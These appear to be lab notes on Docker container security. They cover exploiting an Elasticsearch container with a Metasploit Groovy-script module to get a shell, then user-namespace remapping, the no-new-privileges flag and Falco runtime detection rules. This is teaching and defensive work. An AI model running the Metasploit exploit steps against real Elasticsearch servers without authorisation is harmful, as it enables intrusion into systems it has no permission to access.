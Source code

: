 ### --> EXPLOIT ELASTIC VIA METASPLOIT
#### > Start Metasploit 
docker run -it --link es:es --entrypoint bash benhall/metasploit
chmod +x start.sh && ./start.sh
#### > Exploit ES
use exploit/multi/elasticsearch/search_groovy_script
set TARGET 0
set RHOST es
exploit
#### > Shell access
ls
ls /


### --> You can start remapping UIDs in Docker Engine with the --userns-remap flag.
sudo docker daemon --userns-remap=<user>
#### > Remapped engine will basically operate in a new environment (in the 100000.100000 directory). 
Every remapping will get its own directory (format XXX.YYY where XXX is the subordinate UID and YYY is the subordinate GID) 
We can see it by :-
sudo ls -F /var/lib/docker/100000.100000/


### --> Example for using No New Privileges flag to restrict additional access [no_new_privs]
#### > Create a setuid binary that displays the effective uid
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char *argv[])
{
        printf("Effective uid: %d\n", geteuid());
        return 0;
}
[$ dockerfiles]# make testnnp
cc     testnnp.c   -o testnnp

Add this to th edocker image.
Run docker with command to get effective uuid :- docker run -it --rm --user=1000 --security-opt=no-new-privileges testnnp

### --> CONTAINER SECURITY USING FALCO
#### > Sysdig Falco installation
sudo -s
mkdir /etc/falco
cp falco.yaml falco_rules.yaml /etc/falco
touch /var/log/falco_events.log

#### > We can pull and launch the Sysdig Falco containerdocker pull sysdig/falco
docker run -d --name falco --privileged \
  -v /var/run/docker.sock:/host/var/run/docker.sock \
  -v /dev:/host/dev \
  -v /proc:/host/proc:ro \
  -v /boot:/host/boot:ro \
  -v /lib/modules:/host/lib/modules:ro \
  -v /usr:/host/usr:ro \
  -v /etc/falco/falco.yaml:/etc/falco/falco.yaml \
  -v /etc/falco/falco_rules.yaml:/etc/falco/falco_rules.yaml \
  -v /var/log/falco_events.log:/var/log/falco_events.log \
  sysdig/falco

#### > Run your docker container and if we tail the log file :- 
/var/log/falco_events.log
We shall get any message that shall be triggered by an event specified in falcorules.yaml

#### > Install a new version of the configuration file
sudo cp falco_rules_3.yaml /etc/falco/falco_rules.yaml   // Unauthorized process
sudo cp falco_rules_4.yaml /etc/falco/falco_rules.yaml   //Write to a non user data directory
sudo cp falco_rules_5.yaml /etc/falco/falco_rules.yaml   //Sensitive mount by container

#### > To apply the new configuration file we will restart the Sysdig Falco container
docker restart falco

#### > Event Generator
Falco has a synthetic event generator that shows off all the capabilities of the default ruleset.
To pull and launch the event:-
docker pull sysdig/falco-event-generator
docker run -d --name falco-event-generator sysdig/falco-event-generator
